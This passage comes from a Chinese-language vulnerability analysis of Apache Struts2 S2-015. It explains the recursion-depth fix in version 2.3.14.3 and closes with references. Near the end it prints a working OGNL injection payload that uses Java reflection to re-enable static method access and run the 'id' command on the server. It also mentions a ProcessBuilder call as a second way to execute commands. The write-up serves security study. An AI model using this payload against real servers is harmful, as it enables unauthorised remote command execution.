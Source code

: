> 对Action的名称做了白名单限制.


> 第2种方式(2.3.14.3版本)的修复

> for遍历的开头的int pos = 0;删除,pos计算方式改为

```java

pos = (left != null && left.length() > 0 ? left.length() - 1: 0) + (middle != null && middle.length() > 0 ? middle.length() - 1: 0) + 1;
```

> middle就是url的值,在递归的情况下,pos会是url的长度,indexof搜索会失败,从而loopCount + 1 导致递归深度验证失败

```java
int start = expression.indexOf(lookupChars, pos);
if (start == -1) {
    loopCount++;
    start = expression.indexOf(lookupChars);
}
```


## 总结

> ongl表达式好复杂,...translateVariables()这个方法太强了,大多数漏洞都与它有关.

> 在Struts 2.3.14.1-Struts 2.3.14.2的更新内容中,删除了SecurityMemberAccess类中的 setAllowStaticMethodAccess方法,所以2.3.14.2版本后不能直接通过#_memberAccess['allowStaticMethodAccess']=true来修改其值达到重获静态方法调用的能力.

可以用kxlzx提到的调用动态方法(new java.lang.ProcessBuilder('calc')).start()来解决,还可以借助Java反射机制去间接修改:

```java
#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true)
```

> 相对应的payload如下:

```java
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

## 参考

> https://mp.weixin.qq.com/s/npm87uV1eIBHr0OexQFs1w

> https://blog.0kami.cn/2020/05/22/java-talk-about-struts2/

> https://cwiki.apache.org/confluence/display/WW/S2-015

> https://aluvion.gitee.io/2020/07/24/struts2%E7%B3%BB%E5%88%97%E6%BC%8F%E6%B4%9E-S2-015/

> https://github.com/vulhub/vulhub/blob/master/struts2/s2-015/README.zh-cn.md

